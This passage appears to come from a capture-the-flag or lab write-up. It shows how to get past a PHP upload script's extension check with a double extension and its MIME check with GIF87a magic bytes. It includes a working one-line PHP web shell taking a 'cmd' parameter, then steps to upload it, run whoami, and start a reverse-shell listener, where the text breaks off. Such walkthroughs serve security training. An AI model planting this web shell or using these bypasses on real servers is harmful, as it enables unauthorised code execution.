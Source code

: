 The following is an example.

```text
substr_compare ( test.png , .png, -4)
```

Since the offset in the above example is negative, it starts at the end of the string “test.png” and checks every character with the characters in the string “.png” \(4 characters\). In this case the test would pass and the function outputs a zero. This is exactly what the upload script is doing. Therefore, in order to bypass that, all we have to do is upload a file with a valid extension at the end. For example: test.php.png.

Let’s move on to the first validation check. The script calls the _check\_file\_type\(\)_ function from the _lib.php_ file. This in turn calls the _file\_mime\_type\(\)_ function to determine the mime type of the file. Then the mime type is checked to see if it contains the string ‘image/’ in it.

```text
function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}
```

This can be easily bypassed because we can simply include what is known as [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) in our file in order to trick the script into thinking the file is an image. This can be be done by adding the string “GIF87a” to the file.

Alright, we know how to bypass both validation checks, so we’re ready to run our exploit.

Create a file called _test.php.png_ and add the the following code to it.

```text
GIF87a                                                                                                                                                                         
<?php system($_GET['cmd']); ?>
```

The first line tricks the application into thinking it is an image and the second line adds a parameter to the get request called _cmd_. Upload the file and intercept the request in Burp.

![](https://miro.medium.com/max/694/1*FNs7nj2_FhzuLWTsVvo4ZA.png)

As can be seen, the request identified it as an image. Send the request and visit the _photos_ page.

![](https://miro.medium.com/max/1176/1*R0X7BcN13VvuUWj2v81jLw.png)

We can see that our image has been uploaded. Right click and select _View Image_. This executes our code. Next, add the _cmd_ parameter to the URL and run the _whoami_ command.

![](https://miro.medium.com/max/690/1*ZEnOAi-k21jM9z9VvG1iTw.png)

We have code execution! Now, let’s get a reverse shell. First, set up a listener on the attack machine.
